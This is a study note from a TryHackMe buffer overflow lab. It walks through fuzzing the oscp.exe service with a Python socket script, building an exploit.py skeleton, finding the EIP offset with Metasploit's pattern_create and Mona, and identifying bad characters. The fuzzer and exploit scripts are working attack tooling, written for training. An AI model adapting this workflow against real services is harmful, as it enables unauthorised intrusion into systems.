 ```yaml
---
title: Buffer Overflow 🌄
---
```

I will use the following **tools**:
- [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
- Mona

- *The content of this note was extracted from [TryHackMe](https://tryhackme.com/r/room/bufferoverflowprep)*
## Opening a file with Immunity Debugger

﻿Right-click the Immunity Debugger icon and choose `Run as administrator`.

When **Immunity** loads, click the open file icon, or choose `File` > `Open`. Select the binary you want to open.

The binary will open in a "paused" state, so click the red play icon or choose `Debug` > `Run`. 

## Setting up Mona

Put the following command inside Immunity Debugger:

```shell
!mona config -set workingfolder c:\mona\%p
```

![](Pasted%20image%2020240531184716.png)

## Fuzzing

Save this script:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.206.165"#change this

port = 1337#change this
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Run the fuzzer.py script using python: `python3 fuzzer.py`

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

![](Pasted%20image%2020240531185043.png)

## Crash Replication & Controlling EIP

Save this script:

```python
import socket

ip = "10.10.206.165"#change this
port = 1337#change this

prefix = "OVERFLOW1 "#change this
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the `-l` value to this):

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`  

If you are using the AttackBox, use the following path to `pattern_create.rb` instead (also ensure to change the `-l` value):

`/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

On Kali, run the modified exploit.py script: `python3 exploit.py`

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

`!mona findmsp -distance 600`

Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

![](Pasted%20image%2020240531185603.png)

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

![](Pasted%20image%2020240531185815.png)

## Finding Bad Characters

﻿Generate a bytearray using mona, and exclude the null byte (`\x00`) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be `C:\mona\oscp\bytearray.bin`).

```shell
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Update your **exploit.py** script and set the payload variable to the string of bad chars the script generates.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:

![](Pasted%20image%2020240531190311.png)

```shell
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

![](Pasted%20image%2020240531190427.png)

Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (`\x00`) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with `\x00`. Then update the payload variable in your exploit.py script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

